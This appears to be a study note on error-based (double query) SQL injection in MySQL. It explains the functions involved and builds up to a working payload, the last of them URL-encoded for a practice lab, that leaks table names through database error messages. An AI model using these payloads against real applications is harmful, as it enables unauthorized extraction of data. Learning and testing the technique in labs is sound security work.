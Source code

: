 # Error Based (Double Query) SQL Injection

- `A double query` combining two queries into a single query and getting the information through the SQL error message from the database. 

- Union injection can not be used when the web pages fail to retrieve any results (Error, Expected Results) from the database while we inject it with a single query, Then we should use double query SQL injection technique. It is a manual injection technique to dump the data from the database.

[Reference](https://securiumsolutions.com/blog/sql-injection-by-double-query-securiumsolutions/#:~:text=A%20double%20query%20SQL%20injection,error%20message%20from%20the%20database.)


# Mysql Query for Error Based Injection

## 1. `Sub-Query` or `Double Query`

- `A subquery is a SQL query nested inside a larger query.`

- A subquery may occur in :
    - A SELECT clause
    - A FROM clause
    - A WHERE clause
The subquery can be nested inside a SELECT, INSERT, UPDATE, or DELETE statement or inside another subquery.
A subquery is usually added within the WHERE Clause of another SQL SELECT statement.


## 2. `rand()` 

- This function return random decimal number between 0 and 1.

## 3. `floor()`

- The function retrun largest inter value.(Less than or equal to a number)

## 4. `Group by`

- aggregate same values in the coulumn as single value

## 5. `count`

- Count the no. of rows that present in the database




# Theory of Error Based or Double Query Injection


1. Combine two queries into single query 
2. Use SQL_function and make application to show error message
3. dump juicy info through error message



# Example mysql_function to make application error

## 1. count()

`select count(*) from information_schema.tables;`

- display how many row in `information_schema.tables;`

## 2. rand() and floor()

`select rand();`
`select floor(rand()*2);`
`select floor(rand()*2)test;`


## 3. Double Query and Make Application Error

#### Extract Juicy info from error

`select x from y;`

#### Double Query

- `select database();`

- `select concat("::",database(),"::","CONCAT FUNCTION");`

- `select concat("::",database(),"::",floor(rand()*2));`

#### adding variable `a`

- `select concat("::",database(),"::",floor(rand()*2))a from information_schema.columns;`

#### `group by` with a

- `select concat("::",database(),"::",floor(rand()*2))a from information_schema.columns group by a;`


#### use `count()` and making web application to error

`select count(*), concat("::",database(),"::",floor(rand()*2))a from information_schema.columns group by a;`

#### modifyed query
`select(select 1 from (select count(*), concat("::",database(),"::",floor(rand()*2))a from information_schema.columns group by a)b);`


#### insert this query to `,database(),` area

`(select table_name from information_schema.tables where table_schema=database() limit 0,1)`



#### lab Full Query Query (ZD-Lab,SQLI,Lesson-5)

`AND+(select+1+from(select count(*), concat("::",(select table_name from information_schema.tables where table_schema=database() limit 0,1),"::",floor(rand()*2))a from information_schema.columns group by a)b)--+`




























